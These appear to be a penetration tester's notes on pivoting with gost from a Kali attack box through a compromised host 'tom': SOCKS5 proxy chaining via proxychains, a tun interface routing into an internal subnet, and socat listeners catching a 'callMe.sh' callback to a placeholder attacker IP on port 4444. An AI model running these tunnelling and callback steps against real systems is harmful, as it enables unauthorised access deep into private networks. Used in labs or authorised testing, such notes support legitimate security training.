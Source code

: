 ### simple socks

```
[[ gost~Kali ]]*
cd tools/gost
scp gost root@tom:
ssh root@tom "./gost -L=socks://:6121" &
lsof -i tcp:9050
./gost -L=:9050 -F=socks://tom:6121 &
lsof -i tcp:9050
	#If both ends are gosts (as example above), the data transfer will be encrypted (using tls or tls-auth). Otherwise, use standard SOCKS5 for communication (no-auth or user/pass).

sudo sed -i 's:socks4:socks5:' /etc/proxychains4.conf
tail /etc/proxychains4.conf
	#make sure it says socks5 127.0.0.1 9050

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Notice we got a callback through our socks proxy
```

#### Clean up

```
[[ gost~Kali ]]
pkill socat
pkill gost
ssh root@tom 'pkill gost'
```

### Tun interface

```
[[ gost~Kali ]]
	#Create the tun interface on the server
ssh root@tom './gost -L="tun://:8421?net=192.168.123.1/24&route=10.X.22.0/24"' &

	#Create the tun interface on the client
sudo ./gost -L="tun://:8421/tom:8421?net=192.168.123.2/24&gw=192.168.123.1&route=10.X.22.0/24" &
	#try to ping the other side of the tun interface
ping 192.168.123.1 -c 1

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```
